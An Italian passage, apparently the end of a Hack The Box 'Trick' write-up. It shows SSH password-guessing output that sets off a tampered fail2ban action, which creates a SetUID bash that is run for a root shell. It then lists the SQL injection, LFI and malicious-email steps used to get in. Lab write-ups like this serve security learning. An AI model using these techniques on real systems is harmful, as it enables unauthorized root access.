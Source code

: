 ```bash
SSH         trick.htb       22     trick.htb        [-] xRabbit:password Authentication failed.
SSH         trick.htb       22     trick.htb        [-] xRabbit:iloveyou Authentication failed.
SSH         trick.htb       22     trick.htb        [-] xRabbit:princess Authentication failed.
SSH         trick.htb       22     trick.htb        [-] xRabbit:1234567 Authentication failed.
```

Notiamo  che questa volta non veniamo bloccati . Questo perché anche quando actionban viene eseguito, non blocca il mio IP in iptables, ma crea piuttosto una bash SetUID. 

```bash
michael@trick:/etc/fail2ban$ ls -l /tmp/xRabbit
-rwsrwxrwx 1 root root 1168776 Oct 15 18:17 /tmp/xRabbit
```

Per attivarlo, dovremmo eseguirlo con [-p](https://www.youtube.com/watch?v=XvfpOIAMx6Y) 
Ciò fornisce una shell (con effettivo uid) come root:

```bash
michael@trick:/tmp$ /tmp/xRabbit -p
0xdf-5.0# id
uid=1001(michael) gid=1001(michael) euid=0(root) groups=1001(michael),1002(security)
0xdf-5.0# cd /root/ls
0xdf: cd: /root/ls: No such file or directory
0xdf-5.0# cd /root/
0xdf-5.0# ls
f2b.sh  fail2ban  root.txt  set_dns.sh
0xdf-5.0# cat root.txt
b55424f5148f623605d045015f78abb1
```
# LESSON LEARNED

Per avere accesso alla macchina abbiamo sfruttato le seguenti vulnerabilità


1. SQL injection  che ci ha permesso di baypassare il login di accesso
2. Virtual Host Enumeration, con relativi subdomini
3. LFI che ci hanno consentito di estrarre informazioni dal databese
4. Invio di email dannosa insieme alla LFI per ottenere una shell

Per aumentare il nostri privilegi abbiamo utilizzato una errata configurazione di fail2ban





